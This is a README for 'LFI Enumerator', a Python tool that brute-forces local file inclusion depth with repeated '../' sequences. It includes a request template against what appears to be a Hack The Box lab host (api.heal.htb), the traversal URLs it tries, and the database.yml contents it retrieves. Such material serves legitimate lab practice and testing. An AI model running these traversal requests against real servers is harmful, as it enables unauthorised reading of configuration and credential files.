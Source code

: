 # LFI Enumerator

## Overview

LFI Enumerator is a Python script that automates **Local File Inclusion (LFI) enumeration** by iterating through `../` sequences until it finds a valid file path.

## Features

- **Takes a raw HTTP request as input**
- **Finds the correct depth (`../`) for LFI traversal**
- **Stops when a valid file (HTTP 200 OK) is found**
- **Extracts and displays the file content**
- **Customizable `max_depth` for deeper enumeration**

## Installation

Clone the repository and install dependencies:

```bash
git clone https://github.com/YOUR_GITHUB_USERNAME/LFI-Enumerator.git
cd LFI-Enumerator
pip install -r requirements.txt
```

## Usage

1. **Save the vulnerable HTTP request** into a text file (`request.txt`).
    
    - Replace the vulnerable filename with `{enumerate}`:
    
    ```plaintext
    GET /download?filename={enumerate} HTTP/1.1
    Host: api.heal.htb
    Authorization: Bearer eyJhbGciOi...
    ```
    
2. **Run the script and enter the file path to enumerate:**
    
    ```bash
    python3 lfi_enumerator.py
    ```
    
3. **Enter the file to search for**, e.g., `/config/database.yml`
    
    ```plaintext
    Enter the file path to enumerate (e.g., /config/database.yml): /config/database.yml
    ```
    

## Example Output

```
[*] Trying: http://api.heal.htb/download?filename=../config/database.yml
[*] Trying: http://api.heal.htb/download?filename=../../config/database.yml
[*] Trying: http://api.heal.htb/download?filename=../../../config/database.yml

[✅] File found at traversal depth: 3
[*] URL: http://api.heal.htb/download?filename=../../../config/database.yml

[📄] File Content:
production:
  adapter: sqlite3
  database: db/production.sqlite3
  pool: 5
  timeout: 5000
```

## Requirements

Python 3 is required. Install dependencies with:

```bash
pip install -r requirements.txt
```
